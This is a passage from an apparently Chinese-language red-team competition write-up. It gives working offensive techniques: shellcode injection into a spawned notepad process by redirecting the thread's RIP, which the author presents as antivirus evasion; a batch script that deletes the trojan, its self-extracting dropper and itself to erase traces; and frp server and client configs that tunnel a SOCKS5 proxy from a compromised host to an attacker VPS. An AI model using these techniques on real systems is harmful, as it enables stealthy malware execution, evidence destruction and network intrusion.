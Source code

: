 使用

```
CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
```

创建 notepad 进程，然后开辟一块 Buffer，将 shellcode 写入 buffer，再使用

```
GetThreadContext(pi.hThread, &ctx);
ctx.Rip = (DWORD64)lpBuffer;
```

开辟一块线程并将 rip 指向 buffer，就可执行对应的 shellcode。通过此方法即可做到免杀，且进程为 notepad，隐蔽性极强：

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLoVsN8Z4y8zAWjC7bwrmrCsmwrtmjPelKEEvz9cyo4xibrWYqIsZCG4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLde9LmJhjHO83hibzmYJuWLBJnoiaZcHw97gDLkicP2VSKycpGvGFR0Bng/640?wx_fmt=png)

这里再提一个隐蔽的 tips，就是自删除，我采用的方式是 bat + 自解压（自解压的详细操作在 phishing 中），这里附上 bat 脚本：

```
@ECHO OFF
set a=y.exe                            rem 定义a为马的名称
set b="%cd%\%a%"                rem 定义b为马的路径    
del /f /a /q %sfxcmd%        rem 删除自解压程序
del /f /a /q %b%                rem 删除马
del /f /a /q %0%                rem 删除bat自身
```

0x05 内网渗透
---------

> 我对于攻防比赛中的内网渗透是及其反感的，迫于得分，所以不得不去做一些体力活，但是这种东西做的再多也没有意义

> frp 设置 socks5 代理并进行端口映射

公网 vps frps.ini

```
[common]
bind_addr =0.0.0.0
bind_port =7000
token = 9iathybNR7KL7EHd
```

目标主机 frpc.ini

```
[common]
server_addr =VPS_IP
server_port =7000
token = 9iathybNR7KL7EHd

[socks_proxy]
type = tcp
remote_port =8010
plugin = socks5
```
